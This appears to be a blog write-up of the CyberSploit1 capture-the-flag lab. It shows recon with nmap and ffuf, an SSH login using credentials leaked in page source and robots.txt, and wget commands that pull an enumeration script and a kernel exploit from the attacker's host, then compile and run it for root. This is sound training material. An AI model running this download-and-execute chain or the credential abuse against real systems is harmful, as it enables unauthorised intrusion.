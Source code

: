 ```yaml
---
title: "CyberSploit 1"
date: 2024-09-29
draft: false
summary: "Writeup for the CyberSploit1 proving grounds CTF challenge."
tags: ["linux", "hardcoded creds", "kernel exploit"]
categories: ["writeups"]
series: []
showToc: true
cover:
  image: "https://cdn.ziomsec.com/cybersploit1/cover.webp"
  caption: "CyberSploit1 Proving Grounds Challenge"
  alt: "CyberSploit1 cover"
platform: "Misc"
---
```


**CyberSploit** is an easy CTF challenge on Offsec's Proving Ground Play. It requires us to capture 2 flags by exploiting different vulnerabilities and misconfigurations on the target.
<!--more-->
To access the machine, click on the link given below:
- https://portal.offsec.com/labs/play

## Reconnaissance

I performed an **nmap** aggressive scan to find running ports, services and os related information.

```shell
nmap -A -p- TARGET -oN cybersploit1 --min-rate 10000
```

| **Port** | **Service** |
| -------- | ----------- |
| 22       | ssh         |
| 80       | http        |

![](https://cdn.ziomsec.com/cybersploit1/1.webp)

## Foothold

Since the target was running a web application, I accessed it using my browser and found a static webpage.

![](https://cdn.ziomsec.com/cybersploit1/2.webp)

The page did not reveal anything useful initially so I viewed the page source and found a username commented out towards the end of the **html** document.

![](https://cdn.ziomsec.com/cybersploit1/3.webp)

Next I performed web fuzzing using **ffuf** and discovered the **robots.txt** file.

```shell
ffuf -u http://TARGET/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-files.txt
```

![](https://cdn.ziomsec.com/cybersploit1/4.webp)

Accessing **`/robots.txt`** revealed a base64 encoded string. So I decoded it using the **base64** command line utility.

```shell
curl http://TARGET/robots.txt | base64 -d
```

![](https://cdn.ziomsec.com/cybersploit1/5.webp)

This seemed interesting but initially I had no idea what this meant. I did some more reconnaissance on the website and found nothing useful.

Since the target was running **ssh**, and I had discovered a username; I tried using this as a password to log into the system.

```shell
ssh itsskv@TARGET
# PASSWORD
```

![](https://cdn.ziomsec.com/cybersploit1/6.webp)

After getting initial access, I listed out the contents of my current directory and found the first flag in **local.txt**.

```shell
cat local.txt
```

![](https://cdn.ziomsec.com/cybersploit1/7.webp)

## Privilege Escalation

For privilege escalation, I downloaded **linux smart enumeration** script from github on my local system and transferred it to the target.

```shell
 $ wget "http://KALI:8080/lse.sh"
 $ chmod +x lse.sh
```

![](https://cdn.ziomsec.com/cybersploit1/8.webp)

I executed the script and found some interesting results.

![](https://cdn.ziomsec.com/cybersploit1/9.webp)
![](https://cdn.ziomsec.com/cybersploit1/10.webp)
![](https://cdn.ziomsec.com/cybersploit1/11.webp)

The script identified a couple of misconfigurations which I looked into but found nothing interesting. I then tried looking for kernel exploits. I viewed my kernel version using the following command:

```bash
uname -r
```

I googled available exploits for the version and found some on **exploit db**.

![](https://cdn.ziomsec.com/cybersploit1/12.webp)

![](https://cdn.ziomsec.com/cybersploit1/13.webp)

I downloaded the exploit on my system and started a python http server to transfer it on the target.

```shell
python3 -m http.server 8080
```

![](https://cdn.ziomsec.com/cybersploit1/14.webp)

I downloaded the exploit from my local machine and compiled it using **gcc**.

```shell
$ wget "http://KALI:8080/37292.c"
$ gcc 37292.c -o priv
```

![](https://cdn.ziomsec.com/cybersploit1/15.webp)

Finally I ran the exploit and got root shell.

```shell
$ chmod +x priv
$ ./priv
```

![](https://cdn.ziomsec.com/cybersploit1/16.webp)

I spawned a pty shell and then navigated to the `/root` directory to capture the final flag.

```shell
$ export TERM=xterm
$ python -c 'import pty;pty.spawn("/bin/bash")'
$ cat proof.txt
```

![](https://cdn.ziomsec.com/cybersploit1/17.webp)

## Closure

Here's a summary of how I pwned the machine:
- I found the username to be hardcoded in the html page.
- I performed web fuzzing and found `/robot.txt`
- I found the password in base64 encoded format in `/robots.txt`.
- I used the username and password to get initial access.
- I found the first flag in my home directory.
- I exploited the kernel to escalate my privilege.
- I captured the final flag from the `root` directory.

Happy Hacking! 🎉

---






























